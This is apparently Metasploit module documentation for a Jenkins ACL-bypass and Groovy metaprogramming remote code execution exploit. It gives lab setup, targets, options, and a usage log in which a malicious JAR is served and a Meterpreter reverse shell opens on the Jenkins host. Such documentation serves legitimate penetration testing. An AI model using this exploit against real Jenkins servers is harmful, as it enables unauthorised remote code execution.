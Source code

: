 ## Intro

This module exploits a vulnerability in Jenkins dynamic routing to
bypass the `Overall/Read` ACL and leverage Groovy metaprogramming to
download and execute a malicious JAR file.

When the `Java Dropper` target is selected, the original entry point
based on `classLoader.parseClass` is used, which requires the use of
Groovy metaprogramming to achieve RCE.

When the `Unix In-Memory` target is selected, a newer, higher-level,
and more universal entry point based on `GroovyShell.parse` is used.
This permits the use of in-memory arbitrary command execution.

The ACL bypass gadget is specific to Jenkins <= 2.137 and will not work
on later versions of Jenkins.

Tested against Jenkins 2.137 and Pipeline: Groovy Plugin 2.61.

## Setup

1. `git clone https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc`
2. `cd cve-2019-1003000-jenkins-rce-poc/sample-vuln`
3. Edit `run.sh` and change `2.152-alpine` to `2.137`
4. `./run.sh`

## Targets

```
Id  Name
--  ----
0   Unix In-Memory
1   Java Dropper
```

## Options

**RPORT**

Set this to the Jenkins port. The default is 8080.

**TARGETURI**

Set this to the Jenkins base path. The default is `/`.

**SRVPORT**

Set this to the port on which to serve the payload. Change it from 8080
to something like 8081 if you are testing Jenkins locally on port 8080.

This option is valid only for the `Java Dropper` target.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(multi/http/jenkins_metaprogramming) > run

[*] Started HTTPS reverse handler on https://192.168.1.2:8443
[*] Jenkins 2.137 detected
[+] Jenkins 2.137 is a supported target
[+] ACL bypass successful
[*] Using URL: http://0.0.0.0:8081/
[*] Local IP: http://192.168.1.2:8081/
[*] Configuring Java Dropper target
[*] Sending Jenkins and Groovy go-go-gadgets
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.pom requested
[-] Sending 404
[*] HEAD /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending 200
[*] GET /CarisaChristiansen/Rank/3.3.5/Rank-3.3.5.jar requested
[+] Sending payload JAR
[*] https://192.168.1.2:8443 handling request from 192.168.1.2; (UUID: qlrpxu6t) Staging java payload (54399 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.2:8443 -> 192.168.1.2:58688) at 2019-03-15 18:57:24 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '$HOME/.groovy/grapes/CarisaChristiansen' on the target

meterpreter > getuid
Server username: jenkins
meterpreter > sysinfo
Computer    : 6f21b8da2915
OS          : Linux 4.9.93-linuxkit-aufs (amd64)
Meterpreter : java/linux
meterpreter >
```
